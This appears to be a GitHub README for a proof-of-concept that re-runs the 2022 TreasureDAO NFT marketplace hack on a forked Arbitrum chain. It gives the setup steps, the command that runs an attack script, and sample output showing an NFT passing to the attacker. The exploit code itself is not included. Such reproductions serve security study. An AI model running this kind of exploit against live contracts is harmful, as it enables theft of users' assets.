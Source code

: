 # TreasureDAO re-hack PoC

## How to run

Install nodejs/npm first

Set up the `forking url` (in `hardhat.config.ts`)

e.g. https://speedy-nodes-nyc.moralis.io/xxxxxxxxxxx/arbitrum/mainnet (
You need to apply for speedy-nodes from moralis.io)

Then run
```bash
npm install
npx hardhat run scripts/attack.ts
```
You will see similar output later
```
Attacker address: 0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266
NFT owner of SmolBrain 3557: 0x52B24BecaE3fa1036cA0e956cd987D48A8f0e165
Exploiting...
Exploit complete.
NFT owner of SmolBrain 3557: 0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266
```
This means the attack is complete
> The block height of the fork is 7322694


## Link

* https://www.coindesk.com/tech/2022/03/03/stolen-smol-brains-nfts-returned-to-users-hours-after-treasure-exploit/
* https://mp.weixin.qq.com/s/SEbXWmugJBz0C00vyzYcCw

